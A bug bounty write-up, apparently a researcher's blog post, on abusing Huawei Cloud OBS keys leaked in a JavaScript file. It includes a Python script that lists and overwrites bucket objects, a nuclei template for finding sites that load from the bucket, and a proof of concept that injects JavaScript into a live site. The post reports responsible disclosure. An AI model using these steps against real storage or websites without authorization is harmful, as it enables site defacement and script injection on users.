 ```yaml
---
title: "Exposed secret keys leading to multiple site defacement for $800"
date: 2025-02-21T11:37:50+08:00
draft: false
summary: Finding secret keys in a JS file—this is like finding money in a trashcan. Yeah that's a JavaScript is trash joke.
---
```

![leaked keys](/leaked-obs-keys.jpg)
> Finding secret keys in a JS file—this is like finding money in a trashcan. Yeah that's a JavaScript is trash joke.

Revisiting another old report.

I found exposed secret keys in a inconspicious JavaScript file at `river.[redacted].com`, which could allow a malicious actor to deface multiple websites of a entertainment platform in the Philippines.

And I got $800 out of it.

---

Doing my usual poking-around after work, I found this seemingly new, but otherwise normal-looking website of my target.

I checked the website out, did my usual fuzzing and find nothing. I couldn't even tell what the website does—I couldn't get past the login screen.

I inspected the source code, opened its JS files, and checked for any API calls, and I found nothing of interest. Then I did a global text search for `_key`, just in case some lazy developer didn't bother configuring their secret keys properly.

```plaintext
var define_import_meta_env_default$1 = {
...
	VITE_OBS_BUCKET_NAME: "dl-patch-river-com",
	VITE_OBS_PATH_PREFIX: "mgames/nhk/common/events/",
	VITE_OBS_ACCESS_KEY: "ATXC1DVXV2[redacted]",
	VITE_OBS_SECRET_KEY: "EQnZvv1HfpEoT62[redacted]",
...
};
```
> _Well I be damned_

Interesting. But I have no idea what these keys are for. Looking up "OBS", [Huawei Cloud OBS](https://www.huaweicloud.com/intl/en-us/product/obs.html) turns up.

## Huawei Cloud Object Storage Service

[**Huawei Cloud OBS**](https://www.huaweicloud.com/intl/en-us/product/obs.html)—is a file bucket storage service by Huawei Cloud. It's basically an alternative to Amazon S3 and Google Cloud Storage.

They also have a Python SDK `esdk-obs-python`, which should make it easier for me to write a Python exploit script.

## Testing the leaked keys

### Testing read access
I wrote a simple Python script that lists down all of the contents of the bucket:

```py
# obs.py
from obs import ObsClient


if __name__ == "__main__":
    access_key = "ATXC1D[redacted]"
    secret_key = "EQnZvv1HfpEoT6[redacted]"
    bucket = "dl-patch-[redacted]-com"
    server = "https://obs.ap-southeast-3.myhuaweicloud.com/"
    region = "ap-southeast-3"

    prefix = "mgames/nhk/common/events/"
    
    obsClient = ObsClient(
        access_key_id=access_key,
        secret_access_key=secret_key,
        server=server
    )

    objects = obsClient.listObjects(bucket)
    for obj in objects.body.contents:
        print(obj.url)
    
    obsClient.close()
```

Running the script, I was able to fetch the contents of the bucket which contains 5,000+ objects:

```plaintext
https://dl.[redacted].com/mgames/nhk/common/events/2023/
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-grid.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-grid.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-reboot.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-reboot.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-utilities.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-utilities.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.eot
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.svg
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.ttf
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.wof
...[redacted for brevity]...
```
> _The keys worked!_

### Testing write access
I adjusted the script to upload an HTML file to the bucket

```py
    target_file = f"{prefix}/tedminfosec.html"
    local_file = "./tedminfosec.html"
    print(f"Uploading {local_file} to {target_file}")
    obsClient.putFile(bucket, target_file, local_file)
```

And sure enough, my HTML file was uploaded to the bucket!

![html file](/leaked-obs-keys-html-file.png)

## Important observation
- I noticed that I was able to _update_ my file by running the script again. **This means I could potentially overwrite any item in the bucket.**

## Understanding the potential impact

Knowing that my target has _thousands_ of domains, I asked myself:
- _Could it be possible that this bucket serves static files for some of these websites?_
- _Is there a way for me to inject arbitrary JavaScript code into these websites?_

Analyzing the leak, a notable configuration setting is the `VITE_OBS_PATH_PREFIX`, which has the value `mgames/nhk/common/events/`.

This means I have to **identify all websites that contain `mgames/nhk/common/events/` in their source code.** To do that, I used [nuclei](https://github.com/projectdiscovery/nuclei) with a custom template.

## Writing a custom nuclei template

Nuclei is a fast, customizable vulnerability scanner but has a somewhat bad rap in the bug bounty community because a lot of researchers get dupes from it. That's simply bound to happen if everyone uses the same templates!

I think nuclei is best used for low-hanging bugs and _custom templates_ that you write yourself. Writing effective custom templates, however, requires a deep understanding of the target.

Here's my custom template to identify the websites that use the compromised storage bucket:

```yaml
id: obs-leak 
info:
  name: OBS Leak
  author: tedm.infosec
  severity: info
requests:
  - method: GET
    path:
      - "{{BaseURL}}/"
    matchers:
      - type: word
        words: 
          - "mgames/nhk/common/events/"
        part: body
```

With the list of live subdomains of `[redacted].com` in `http.txt`, I pipe it into `nuclei` like so:

```plaintext
cat http.txt | nuclei -t ~/custom-nuclei-templates/adhoc/tmp.yaml
                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.1.10

                projectdiscovery.io

[WRN] Found 1 templates loaded with deprecated protocol syntax, update before v3 for continued support.
[INF] Current nuclei version: v3.1.10 (outdated)
[INF] Current nuclei-templates version: v10.1.2 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 52
[INF] Templates loaded for current scan: 1
[WRN] Executing 1 unsigned templates. Use with caution.
[INF] Targets loaded for current scan: 6004
[obs-leak] [http] [info] https://console.df.[redacted].com/
[obs-leak] [http] [info] https://voting.df.[redacted].com/
[obs-leak] [http] [info] https://members.[redacted].com/
[obs-leak] [http] [info] https://connect.16273.[redacted].com/
...[redacted for brevity]...
```

## Running arbitrary JavaScript in one of their websites
I chose one seemingly unimportant website from the list of websites detected by `nuclei`. Then I identified the JS file hosted from the bucket, updated its code so it prints out `hello from tedminfosec` in the console:

![proof of concept](/leaked-obs-keys.PNG)
> _It works._

## Responsible disclosure
Now that I have a good proof-of-concept to show that I compromised their website, I submitted a report detailing my exploit through their HackerOne of the company. A few weeks later I receive a reply:

![reward](/leaked-obs-keys-reward.PNG?1)

## Takeaways
- Developers _always_ make mistakes, capitalize on that.
- Knowing how to write your own `nuclei` templates can be incredibly useful.
- A bit of Python can help in writing exploits.
- Mapping the attack surface of a target is crucial for successful attacks.
